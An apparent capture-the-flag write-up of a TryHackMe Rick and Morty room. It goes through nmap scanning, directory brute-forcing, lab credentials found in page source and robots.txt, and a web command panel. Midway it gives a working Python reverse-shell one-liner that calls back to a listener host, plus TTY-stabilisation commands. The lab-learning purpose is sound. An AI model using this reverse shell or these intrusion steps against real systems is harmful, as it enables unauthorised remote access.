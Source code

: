 ![[Pasted image 20230504002017.png]]

First ofcourse we gotta connect to the THM VPN, and run the machine

![[Pasted image 20230504002157.png]]

nmap -sC -sV 10.10.221.23
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-03 12:24 EDT
Nmap scan report for 10.10.221.23
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cfdad871d564e47058315bbd6e6934c3 (RSA)
|   256 8ab625794ac8023b22adef1a1264a631 (ECDSA)
|_  256 8942610675857654d8f6b055a08ba7c3 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.14 seconds

![[Pasted image 20230504002601.png]]
Run nmap, just ssh and http port

![[Pasted image 20230504002244.png]]
Nothing interesting in the front page

![[Pasted image 20230504002313.png]]
We maybe got the usernames
Username: R1ckRul3s

![[Pasted image 20230504002821.png]]
Run gobuster for directory scanning

![[Pasted image 20230504002841.png]]
found a login page



![[Pasted image 20230504002907.png]]
robots.txt give something, could be password

Wubbalubbadubdub

![[Pasted image 20230504002943.png]]

![[Pasted image 20230504003000.png]]
we are in

![[Pasted image 20230504003022.png]]
Only real rick can view other tab, we can only play with commands

![[Pasted image 20230504003100.png]]

we run id command, 

![[Pasted image 20230504003125.png]]
ls command

![[Pasted image 20230504003222.png]]
tried to cat the file can't

![[Pasted image 20230504003153.png]]
uname -a 

let's check if it have python

![[Pasted image 20230504003420.png]]
it does have python, we can try getting reverse shell

![[Pasted image 20230504003655.png]]

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.6.64",9876));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'SS

![[Pasted image 20230504003728.png]]
we got a shell, we can stabalize it
https://0xffsec.com/handbook/shells/full-tty/
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo && fg
reset

![[Pasted image 20230504004828.png]]

now we have stabalize shell, time to find all the ingredients

1. mr. meeseek hair![[Pasted image 20230504004916.png]]
2. 1 jerry tear
![[Pasted image 20230504005032.png]]
3. fleeb juice
   ![[Pasted image 20230504005306.png]]

Thats all for the recipe

![[Pasted image 20230504005405.png]]